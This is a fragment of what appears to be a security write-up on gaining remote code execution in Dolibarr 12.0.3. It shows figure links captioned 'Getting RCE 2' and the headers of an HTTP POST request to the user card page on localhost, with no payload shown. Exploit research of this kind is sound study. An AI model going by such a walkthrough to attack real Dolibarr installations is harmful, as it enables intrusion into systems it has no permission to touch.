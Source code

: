 ![alt text](../captures/c17_19.png "Figure 18: Getting RCE 2")

![alt text](../captures/c17_20.png "Figure 19: Getting RCE 2")

Request:
```
POST /projects/dolibar/12.0.3/htdocs/user/card.php?id=2 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
```